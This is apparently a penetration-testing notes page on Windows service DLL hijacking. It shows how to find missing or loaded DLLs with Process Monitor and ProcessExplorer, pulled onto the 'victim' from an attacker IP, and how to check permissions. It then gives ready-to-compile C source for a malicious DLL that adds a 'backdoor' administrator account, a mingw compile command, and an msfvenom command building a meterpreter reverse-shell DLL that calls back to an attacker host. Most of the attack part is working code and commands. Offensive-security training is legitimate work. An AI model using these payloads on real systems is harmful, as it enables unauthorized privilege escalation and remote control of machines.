

# Service DLL Hijacking

## Finding DLL's on running service.

We can use Process Monitor, or any monitoring tool that is on the system to enumerate DLL's on a running service. _**We may have to import our own process monitor binary to system if there is none under permissions we can use!**_

_<mark style="color:red;">**NOTE:**</mark>_ If the DLL list is empty, we should restart the service and view the start up DLLs.

<figure><figcaption><p>XFreeRDP - Procmon w/ DLL Name Filter is Empty.</p></figcaption></figure>

### Restarting DLL Service

```
PS> Restart-Service BetaService
```

<figure><figcaption><p>Viewing Loaded DLL's after executing Restart-Service</p></figcaption></figure>

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |


## Enumerating DLL's ProcessExplorer

If we have access to RDP, we can use SysInternals' ProcessExplorer to quickly find Dlls.



### Download ProcessExplorer & ProcessMonitor to Victim

```powershell
PS> iwr -uri http://192.168.45.246:8000/procexp64.exe -OutFile procexp64.exe
```

```powershell
PS> iwr -uri http://192.168.45.246:8000/Procmon64.exe -OutFile Procmon64.exe
```

###

### Search for missing DLL's

Launch Process Monitor and set a filter for result “<mark style="color:red;">**NAME NOT FOUND**</mark>”.

##

## Create Malicious DLL

There are many types of malicios DLL's we can execute on our victim. For more information view: Malware Development

#### Adds Administrative User w/ Net Command

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user backdoor password123! /add");
  	    i = system ("net localgroup administrators backdoor /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile for Windows x64

**--shared** to specify that we want to build a DLL.

```
x86_64-w64-mingw32-gcc malicous-dll.c --shared -o myDll.dll
```

#### We then transfer the DLL to our victim and save it at the location it's being called from.

<pre><code><strong>PS> $env:path
</strong></code></pre>


### Create malicious DLL MsfVenom

Instead of adding a user, we may want to add a reverse shell instead.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil-meterpreter64.dll
```
